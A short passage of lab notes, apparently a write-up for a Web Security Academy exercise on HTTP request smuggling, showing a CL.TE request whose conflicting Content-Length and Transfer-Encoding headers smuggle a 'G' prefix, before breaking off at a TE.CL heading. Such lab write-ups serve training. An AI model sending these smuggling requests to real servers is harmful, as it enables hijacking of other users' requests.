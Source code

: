 ![alt text](hrs.png)

Perform **CL.TE**:

![alt text](hrs2.png)

Send the following request and sedn one more normal request to solve the lab:
```
POST / HTTP/1.1
Host: 0add0096043e85c881b43ed8003b00b0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

0

G
```
## TE.CL vulnerabilities
